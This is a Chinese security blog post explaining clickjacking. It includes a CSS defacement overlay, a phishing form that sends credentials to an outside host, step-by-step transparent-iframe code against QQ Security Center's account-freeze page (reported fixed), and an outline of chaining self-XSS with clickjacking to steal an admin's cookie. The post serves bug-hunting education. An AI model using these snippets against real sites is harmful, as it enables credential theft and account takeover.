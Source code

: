 ```yaml
---
layout: post
author: Vulkey_Chen
title: "鸡肋点搭配ClickJacking攻击-获取管理员权限"
date: 2017-12-20
categories: ClickJacking selfxss
permalink: /archives/2017-12-20/1
description: "笔者挖到了一个selfxss，在思考之后想起了ClickJacking，于是结合之..."
---
```


# 前言

有一段时间没做测试了，偶尔的时候也会去挖挖洞。本文章要写的东西是我利用`ClickJacking`拿下管理员权限的测试过程。但在说明过程之前，先带大家了解一下`ClickJacking`的**基本原理以及简单的漏洞挖掘**。

<!-- more -->

# ClickJacking

ClickJacking背景说明:

> ClickJacking（点击劫持）是由互联网安全专家罗伯特·汉森和耶利米·格劳斯曼在2008年首创的。
> ClickJacking是一种视觉欺骗攻击手段，在web端就是iframe嵌套一个透明不可见的页面，让用户在不知情(被欺骗)的情况下，点击攻击者想要欺骗用户点击的位置。

说道视觉欺骗，相信有`炫技`经验的朋友们一定会想到，自己一个后台拿不下Webshell权限的时候，而想要黑掉首页从而达到炫技，使用的是什么呢？没错一般使用CSS样式表来劫持首页以造成黑掉的假象~

```html
<table style="left: 0px; top: 0px; position: fixed;z-index: 5000;position:absolute;width:100%;height:300%;background-color: black;"><tbody><tr><td style="color:#FFFFFF;z-index: 6000;vertical-align:top;"><h1>hacked by key</h1></td></tr></tbody></table>
```

![CSS jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x00.png)

除了可以炫技，CSS劫持可以做的东西也有很多：例如经典的form表单钓鱼攻击

```html
<table+style="left:+0px;+top:+0px;+position:+fixed;z-index:+5000;position:absolute;width:100%;background-color:white;"><tr><td><form action="http://192.168.0.109/login.php" method="post">账号：<input type="text" name="name"><br>密码：<input type="password" name="pwd"><br><input type="submit" value="登陆"></form><td></tr></table>
```

![CSS jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x01.png)

这里就不对代码的意思进行解读了，可以看到CSS劫持达到的视觉欺骗攻击效果还是比较LOW的，因为这样的攻击手段偏被动式。而我要说的点击劫持其实也算是被动式，不过相对来说比较容易获得信任让被动式触发，这里只是单单对攻击手法谁的成功率比较高作为比较

前面背景介绍的时候说了，点击劫持攻击其实就是镶嵌一个iframe框架(**存在点击劫持漏洞的页面**)在页面上，然后再把其修改为透明的样式。这样的操作只是造成了视觉欺骗，还没达到欺骗点击的效果，所以就需要知道iframe框架其按钮的位置，然后在基于透明层模拟一个位置大小相同的按钮，发给用户让其点击~~

这里以QQ安全中心的一个点击劫持为例，作为一个QQ的资深用户应该知道QQ是有安全中心紧急冻结QQ服务的，只要登录自己的安全中心就可以冻结，**地址(漏洞地址，目前漏洞已经修复)**为：<https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985>

![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x02.png)

一点击，你的QQ就被会冻结(当时不知道逗了多少人~)，那这样怎么利用呢？

1.建立iframe框架:

```html
<iframe id="frame" src="https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985"></iframe>
```

2.建立iframe的CSS样式:

```css
#frame {
    border: 0px; /*边框属性为0*/
    height: 100%; /*框架高度100%*/
    width: 100%; /*框架宽度100%*/
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
```

3.获取iframe框架引用的原页面的按钮位置和大小:

大小直接通过审查元素可以看得到:

![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x03.png)

现在要获取的就是按钮元素到浏览器顶部的距离，这里通过`id.offsetTop`有些时候是无法直接获取的:

> \>\>span_verify.offsetTop
> ←16

获取到的是16~很醉，所以使用如下的方法直接获取:

```javascript
document.getElementById('span_verify').getBoundingClientRect().top
```

![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x04.png)
4.建立按钮:

```html
<input type="button" class="button" value="Click" />
```

5.根据第三步骤获取到的建立按钮样式:

```css
.button {
    position: fixed;
    width: 100%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right: 0;
    display: block;
    top: 278px;
} 
```

6.散播，用户中招:
![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x05.png)
![QQ Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x06.png)

## 一次点击劫持攻击案例

说了这么多，在前几天的测试中我是如何拿到管理员权限呢？挖掘到一处self-xss，这里先说明下self-xss可以理解为只能攻击myself~

发现流程:

**发现输入框->秉着见框就X的原理插入XSS Payload->弹框->发现成功**

然而获取到的URL链接是`/?keyword=<script>alert(1)</script>`，但是不是xss，keyword的值显示在输入框内，需要你再点击`搜索标题按钮`才可以触发漏洞。

**形成的攻击思路->iframe嵌套漏洞URL链接->Click Jacking攻击页面构造->通过留言给管理员引诱触发**

![Click Jacking](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x07.png)

攻击页面构造流程其实耐心读到这里的朋友已经是非常明确步骤了:

**建立iframe框架->建立iframe框架CSS样式->获取按钮位置大小->建立按钮->建立按钮CSS样式->留言板留言外网攻击链接->获取管理员Cookie->Cookie伪造进入后台**

# 结尾

一次很有意思的实践，让自己满满的成就感，同时也完成了项目任务~

